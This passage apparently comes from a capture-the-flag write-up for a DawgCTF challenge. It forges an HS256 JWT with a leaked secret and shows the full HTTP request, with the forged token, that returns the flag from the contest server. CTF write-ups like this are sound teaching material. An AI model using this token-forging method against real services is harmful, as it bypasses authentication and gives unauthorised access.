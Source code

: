 You can use [JWT.io website](https://jwt.io/) to craft a valid JWT with `31337` identity and signed with `dawgCTF?heckin#bamboozle` secret.

```
{"alg":"HS256","typ":"JWT"}.{"identity":31337,"iat":1586564945,"nbf":1586564945,"exp":1586908800}.Hx0gLrzRZy4lGdEhvV_eIpdpSSa_pd6FQVBy1pMVNPE

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6MzEzMzcsImlhdCI6MTU4NjU2NDk0NSwibmJmIjoxNTg2NTY0OTQ1LCJleHAiOjE1ODY5MDg4MDB9.Hx0gLrzRZy4lGdEhvV_eIpdpSSa_pd6FQVBy1pMVNPE
```

Calling the endpoint with the JWT in the `Authorization` header will give you the flag.

```
GET /jwtlogin HTTP/1.1
Host: freewifi.ctf.umbccd.io
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: WifiKey nonce=MjAyMC0wNC0xMSAwMDoxNg==; WifiKey alg=SHA1; session=eyJjc3JmX3Rva2VuIjoiYTA2MmZkNTUyNzM3NmQwMTAxYTc4YzgwMmFlNmFkOTI5ZGQzNzU3OCJ9.XpD3NA.zDj47SdpKQnikt--V9WnN0zUmYQ; JWT 'identity'=31337; JWT 'secret'="dawgCTF?heckin#bamboozle"
Authorization: JWT eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZGVudGl0eSI6MzEzMzcsImlhdCI6MTU4NjU2NDk0NSwibmJmIjoxNTg2NTY0OTQ1LCJleHAiOjE1ODY5MDg4MDB9.Hx0gLrzRZy4lGdEhvV_eIpdpSSa_pd6FQVBy1pMVNPE
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 11 Apr 2020 00:35:23 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 27

DawgCTF{y0u_d0wn_w!t#_JWT?}
```